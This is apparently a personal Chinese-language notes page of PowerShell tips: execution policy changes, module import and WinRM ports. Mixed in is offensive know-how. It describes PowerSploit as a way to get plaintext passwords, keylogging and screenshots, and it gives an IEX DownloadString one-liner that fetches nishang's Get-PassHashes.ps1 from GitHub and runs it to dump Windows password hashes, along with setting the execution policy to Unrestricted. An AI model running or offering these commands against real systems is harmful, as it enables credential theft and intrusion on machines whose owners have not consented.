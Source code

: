 ```yaml
---
layout: docs
category : code
tagline: "cpp"
tags : [PE, export, table,RVA,offset]
---
```


1.`powershell`执行脚本：

默认情况是阻止的，输入如下命令即可运行`powershell`脚本：
{% highlight bash %}
set-executionpolicy remotesigned
{% endhighlight %}

2.`powershell`脚本后缀为：`ps1`

3.route add,Nod32,portscan(no),mb_login(yes)

4.`powershell`下载文件：
{% highlight cpp %}
(new-object System.Net.WebClient).DownloadFile( 'http://down.360safe.com/inst.exe','I:\360.exe')
{% endhighlight %}

5.功能强大的 `powershell` 合集： [https://github.com/mattifestation/PowerSploit](https://github.com/mattifestation/PowerSploit).,可以获取明文口令、键盘记录、定时截图等。

用法简单说明：

将powersploit文件夹拷贝到`powershell`模块目录下，其模块目录可以通过
{% highlight bash %}
echo $Env:PSModulePath
{% endhighlight %}

查看模块目录。注意：文件夹名称必须是`powersploit`。然后导入模块：
{% highlight bash %}
import -m powersploit
{% endhighlight %}

接着就可以使用:
{% highlight bash %}
get-command -m powersploit
{% endhighlight %}

查看其命令，并可以`get-help` 查看其命令帮助了。

6.`powershell` 获取`HASH`：

获取`HASH`的`powershell`脚本为：[https://raw.githubusercontent.com/samratashok/nishang/master/Gather/Get-PassHashes.ps1](https://raw.githubusercontent.com/samratashok/nishang/master/Gather/Get-PassHashes.ps1).

使用方法有如下两种：

1).
{% highlight bash %}
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/nishang/master/Gather/Get-PassHashes.ps1');Get-PassHashes
{% endhighlight %}
2).
{% highlight bash %}
iex -command .\Get-PassHashes.ps1;get-passhashes 
{% endhighlight %}
（这种方式不正确,因为文件内容整体上没有被认为是字符串类型）。可用的方式是：在`get-passhashes.ps1`文件最后面，加上 `Get-PassHashes` 即可（因为文件只提供了函数定义，没有调用，我们加上调用语句 即可，调用时，这里不要加括号之类的，然后`powershell`中执行该文件即可。

3).导入模块
{% highlight bash %}
import-module Get-PassHashes.ps1
{% endhighlight %}
然后调用 `Get-PassHashes` 即可。也可以合起来一起写：
{% highlight bash %}
import-module .\Get-PassHashes.ps1;get-passhashes
{% endhighlight %}
7.导入模块

导入模块分为两种，一种是导入到系统模块，还有一直是导入到当前会话。

导入到系统模块，则会全局生效，需要拷贝到 `$Env:PSModulePath` 中指定的路径之下，并使用
{% highlight bash %}
import -m 模块名
{% endhighlight %}
即可导入。

导入到当前会话，只需要 
{% highlight bash %}
import-module 模块文件名
{% endhighlight %}
然后就可以调用其命令了。到`powershell`退出后，模块也跟着消逝。

如果导入模块时，报未经数字签名的错误，可以设置数字签名为不限制的来解决
{% highlight bash %}
Set-ExecutionPolicy Unrestricted
{% endhighlight %}
或者右键该文件，选择解除锁定

8.powershell 远程端口通常是47001，WinRM 5985(HTTP),5986(HTTPS)